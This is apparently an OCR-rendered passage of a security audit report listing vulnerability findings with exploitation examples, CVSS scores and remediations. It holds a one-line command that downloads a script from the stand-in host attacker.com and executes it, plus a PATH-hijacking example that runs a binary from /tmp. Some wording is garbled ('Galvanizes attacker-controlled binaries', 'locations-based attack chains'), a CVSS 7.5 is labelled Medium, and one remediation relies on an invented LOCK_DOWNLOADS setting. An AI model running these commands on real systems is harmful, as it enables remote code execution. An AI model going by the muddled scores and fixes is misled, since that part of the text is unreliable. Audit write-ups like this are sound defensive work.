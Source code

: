       **Exploitation Example**:                                                                                                                                                                                                        
      ```bash                                                                                                                                                                                                                          
      fetch https://attacker.com/payload.sh && chmod +x payload.sh && ./payload.sh                                                                                                                                                     
      ```                                                                                                                                                                                                                              
      **Impact**: Galvanizes attacker-controlled binaries                                                                                                                                                                              
      **Criticality**: Critical (CVSS 9.2)                                                                                                                                                                                             
      **Remediation**:                                                                                                                                                                                                                 
      ```bash                                                                                                                                                                                                                          
      iptables -A OUTPUT -d attacker.com -j DROP &&                                                                                                                                                                                    
      echo "LOCK_DOWNLOADS=1" >> /etc/environment                                                                                                                                                                                      
      ```                                                                                                                                                                                                                              
      **Sources**:                                                                                                                                                                                                                     
      OWASP ASVS - Secure Downloads | MITRE T1543 | SANS AppSec Illegal Resource Access                                                                                                                                                
                                                                                                                                                                                                                                       
      ## 7. Path Manipulation Vulnerability                                                                                                                                                                                            
      **Vulnerability**: Modifiable system path variables                                                                                                                                                                              
      **Exploitation Example**:                                                                                                                                                                                                        
      ```bash                                                                                                                                                                                                                          
      export PATH="/tmp:$PATH" && /tmp/evil_binary                                                                                                                                                                                     
      ```                                                                                                                                                                                                                              
      **Impact**: Enables locations-based attack chains                                                                                                                                                                                
      **Criticality**: Medium (CVSS 7.5)                                                                                                                                                                                               
      **Remediation**:                                                                                                                                                                                                                 
      ```bash                                                                                                                                                                                                                          
      echo "PATH=\"/bin:/usr/bin:/usr/local/bin\"" >> /etc/profile                                                                                                                                                                     